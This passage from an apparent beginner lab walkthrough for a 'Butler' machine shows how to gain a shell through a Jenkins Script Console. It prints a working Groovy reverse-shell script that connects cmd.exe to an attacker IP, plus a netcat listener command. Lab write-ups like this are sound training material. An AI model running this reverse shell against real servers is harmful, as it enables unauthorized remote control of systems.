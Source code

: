 ### The Groovy Script

```
String host=”localhost”;
int port=8044;
String cmd=”cmd.exe”;
Process p=new ProcessBuilder(cmd).redirectErrorStream(true).start();Socket s=new Socket(host,port);InputStream pi=p.getInputStream(),pe=p.getErrorStream(), si=s.getInputStream();OutputStream po=p.getOutputStream(),so=s.getOutputStream();while(!s.isClosed()){while(pi.available()>0)so.write(pi.read());while(pe.available()>0)so.write(pe.read());while(si.available()>0)po.write(si.read());so.flush();po.flush();Thread.sleep(50);try {p.exitValue();break;}catch (Exception e){}};p.destroy();s.close();
```
Change the host to your  **Attacker machine IP**
Change the port to something i'll use `2222`

Now copy the **modified** `groovy script` and paste it in the `Script Console` don't hit run right away.
![alt text](https://github.com/jissjames322/Beginner-Level-Machines/blob/eccc88193936f40f1b4df30decf282f79da1fa82/Butler/images/scirpt%20insert.png)

First we need to setup a listener using `netcat` on port `2222`.
```
nc -nvlp 2222
listening on [any] 2222 ...

```

Now hit **`Run`**

![alt text](https://github.com/jissjames322/Beginner-Level-Machines/blob/eccc88193936f40f1b4df30decf282f79da1fa82/Butler/images/netcat%20shell.png)

And **TADA** ! we got a shell !

Okay we still are'nt the High authority of this machine so we're going to be performing `privilege escalation` methods.
